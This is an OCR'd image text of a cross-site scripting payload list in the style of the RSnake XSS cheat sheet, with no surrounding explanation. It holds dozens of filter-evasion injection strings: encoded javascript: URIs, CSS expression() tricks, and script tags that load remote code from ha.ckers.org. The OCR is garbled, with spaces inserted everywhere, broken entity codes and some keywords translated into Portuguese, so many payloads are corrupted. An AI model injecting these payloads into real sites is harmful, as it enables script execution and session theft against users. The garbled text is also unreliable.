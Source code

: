 & lt; IMG SRC = & # 0000106 & # 0000097 & # 0000118 & # 0000097 & # 0000115 & # 0000099 & # 0000114 & # 0000105 & # 0000112 & # 0000116 & # 0000058 & # 0000097 & # 0000108 & # 0000101 & # 0000114 & # 000011 & # 00000 # 00000 000 & # 0000083 & # 00000 # 00000 000 & # 0000083 & # 000039 & # 00000 000 & # 00000 000 & # 000039 00039 # 0000041 & gt;
& lt; IMG SRC = javascript & # 058; alert ('XSS') & gt;
& lt; IMG SRC = javascript & # 058; alert (String & # 46; fromCharCode (88,83,83)) & gt;
& lt; IMG \ "\" \ "& gt; & lt; SCRIPT & gt; alert (\" XSS \ ") & lt; / SCRIPT & gt; \" & gt;
& lt; IMG SRC = `javascript & # 058; alert (\" RSnake diz, 'XSS' \ ")` & gt;
& lt; IMG SRC = javascript & # 058; alert (& quot; XSS & quot;) & gt;
& lt; IMG SRC = JaVaScRiPt & # 058; alert ('XSS') & gt;
& lt; IMG SRC = javascript & # 058; alert ('XSS') & gt;
& lt; IMG SRC = \ "javascript & # 058; alert ('XSS'); \" & gt;
& lt; SCRIPT SRC = http & # 58; // ha & # 46; ckers & # 46; org / xss & # 46; js & gt; & lt; / SCRIPT & gt;
'';! - \ "& lt; XSS & gt; = & {()}
'; alert (String & # 46; fromCharCode (88,83,83)) // \'; alert (String & # 46; fromCharCode (88,83,83)) // \ "; alert (String & # 46; fromCharCode ( 88,83,83)) // \\ "; alert (String & # 46; fromCharCode (88,83,83)) // - & gt; & lt; / SCRIPT & gt; \" & gt; '& gt; & lt; SCRIPT & gt; alert (String & # 46; fromCharCode (88,83,83)) & lt; / SCRIPT & gt;
'; alert (String.fromCharCode (88,83,83)) // \'; alert (String.fromCharCode (88,83,83)) // "; alert (String.fromCharCode (88,83,83)) //\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT >
'';! - "<XSS> = & {()}
<SCRIPT SRC = http: //ha.ckers.org/xss.js> </SCRIPT>
<IMG SRC = "javascript: alert ('XSS');">
<IMG SRC = javascript: alert ('XSS')>
<IMG SRC = javascrscriptipt: alert ('XSS')>
<IMG SRC = JaVaScRiPt: alert ('XSS')>
<IMG "" "> <SCRIPT> alert (" XSS ") </SCRIPT>">
<IMG SRC = "& # 14; javascript: alert ('XSS');">
<SCRIPT / XSS SRC = "http://ha.ckers.org/xss.js"> </SCRIPT>
<SCRIPT / SRC = "http://ha.ckers.org/xss.js"> </SCRIPT>
<<SCRIPT> alert ("XSS"); // <</SCRIPT>
<SCRIPT> a = / XSS / alert (a.source) </SCRIPT>
\ "; alert ('XSS'); //
</TITLE> <SCRIPT> alert ("XSS"); </SCRIPT>
¼script¾alert (¢ XSS ¢) ¼ / script¾
<META HTTP-EQUIV = "atualizar" CONTENT = "0; url = javascript: alert ('XSS');">
<IFRAME SRC = "javascript: alert ('XSS');"> </IFRAME>
<FRAMESET> <FRAME SRC = "javascript: alert ('XSS');"> </FRAMESET>
<TABLE BACKGROUND = "javascript: alert ('XSS')">
<TABLE> <TD BACKGROUND = "javascript: alert ('XSS')">
<DIV STYLE = "background-image: url (javascript: alert ('XSS'))">
<DIV STYLE = "imagem de fundo: \ 0075 \ 0072 \ 006C \ 0028 '\ 006a \ 0061 \ 0076 \ 0061 \ 0073 \ 0063 \ 0063 \ 0072 \ 0069 \ 0070 \ 0074 \ 003a \ 0061 \ 006c \ 0065 \ 0072 \ 0074 \ 0028.1027 \ 0058.1053 \ 0053 \ 0027 \ 0029 '\ 0029 ">
<ESTILO DIV = "largura: expressão (alerta ('XSS'));">
<STYLE> @im \ port '\ ja \ vasc \ ript: alert ("XSS")'; </STYLE>
<IMG STYLE = "xss: expr / * XSS * / ession (alert ('XSS'))">
<XSS STYLE = "xss: expression (alert ('XSS'))">
exp / * <A STYLE = 'no \ xss: noxss ("* // *"); xss: & # 101; x & # x2F; * XSS * // * / * / pression (alert ("XSS")) '>
<EMBED SRC = "http://ha.ckers.org/xss.swf" AllowScriptAccess = "sempre"> </EMBED>
a = "obter"; b = "URL (ja \" "; c =" vascr "; d =" ipt: ale "; e =" rt ('XSS'); \ ")"; eval (a + b + c + d + e);
<SCRIPT SRC = "http://ha.ckers.org/xss.jpg"> </SCRIPT>
<HTML> <BODY> <? Xml: namespace prefix = "t" ns = "urn: schemas-microsoft-com: time"> <? Import namespace = "t" deployment = "# default # time2"> <t: definir attributeName = "innerHTML" para = "XSS & lt; SCRIPT DEFER & gt; alert (& quot; XSS & quot;) & lt; / SCRIPT & gt;"> </BODY> </HTML>